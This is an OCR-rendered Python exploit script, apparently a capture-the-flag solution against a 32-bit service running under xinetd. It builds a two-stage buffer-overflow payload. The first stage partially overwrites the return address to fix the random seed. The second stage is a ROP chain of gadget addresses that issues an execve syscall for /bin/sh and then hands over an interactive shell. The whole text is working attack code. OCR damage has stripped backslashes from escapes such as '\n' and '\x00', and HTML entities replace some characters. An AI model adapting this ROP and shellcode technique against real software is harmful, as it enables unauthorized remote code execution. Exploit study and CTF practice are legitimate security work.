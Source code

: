 ```
    target.send(b"4n")
    skip(target, b"execution")
    # We partially overwrite the return address, we need to comeup
    # with valid-in-the-future values for ebx and ebp.
    payload = b"a" * 14
    payload += struct.pack("&lt;I", 0x3e1b7a6c)    # ebx / computed
    payload += struct.pack("&lt;I", 0x3e1b8000)    # ebp # must only be valid r/w
    payload += b"x14" # re-trigger init with known/constant random_seed, provided by esi.
    # Make sure we don't send too much at once.
    target.send(payload)
    time.sleep(1)
    todo = 100 - len(payload)
    while todo &gt; 0:
        sending = min(10, todo)
        target.send(b"a" * (sending - 1) + b"n")
        time.sleep(0.2)
        todo = todo - sending
        print(".", end="", flush=True)
    print()
    print("Sent first stage, waiting for menu.")
    skip(target, b"Quit")
    target.send(b"4n")
    skip(target, b"execution")
    print("Sending exploit.")
    def get_addr(addr, name):
        """Get runtime addr from ida addr."""
        ida_base = 0x8048000
        # It seems under xinetd there is one more call to prng().
        # Not sure why this is but we just have to check what
        # value will be generated and use that.
        # run_base = 0x39d54000 # local no xinetd
        run_base = 0xfe97c000 # local with xinetd
        ret = addr + (run_base - ida_base)
        print("%s will be at %#.8x" % (name, ret))
        return ret
    def pack_addr(addr, name):
        return struct.pack("&lt;I", get_addr(addr, name))
    payload = b"a" * 14
    payload += struct.pack("&lt;I", 0x42424242)    # base
    payload += struct.pack("&lt;I", 0x42424242)    # ebp
    # This is so we can ironically expect a F.U.C.K.U.P.
    payload += pack_addr(0x080483C0, "welcome")
    # Setup syscall. ebx, ecx, edx. eax=11
    payload += pack_addr(0x0804908f, "pop eax; pop ebx; pop esi; ret")
    payload += struct.pack("&lt;I", 11)            # execv
    payload += struct.pack("&lt;I", 0x22222222)
    payload += struct.pack("&lt;I", 0x22222222)
    payload += pack_addr(0x0804961a, "pop edx; pop ecx; pop ebx; ret")
    payload += pack_addr(0x080485f9, "NULL")    # environ
    payload += pack_addr(0x080485f9, "NULL")    # argv
    payload += struct.pack("&lt;I", 0x22222222)
    # Now we use this neat gadget, /bin/sh is right after us.
    payload += pack_addr(0x0804875b, "lea ebx, [esp+4]; int 0x80")
    payload += pack_addr(0x08048a11, "pop; pop; ret")
    payload += b"/bin/shx00"
    payload += struct.pack("&lt;I", 0x44444444)    # eip, too lazy for clean exit.
    payload = payload.ljust(100, b"xcc")
    # Ok, sanity check and good to go.
    assert len(payload) &lt;= 100, "payload too large, %d bytes." % len(payload)
    target.send(payload)
    skip(target, b"F.U.C.K.U.P.")
    target.set_inheritable(True)
    print("You should be able to type stuff now.")
```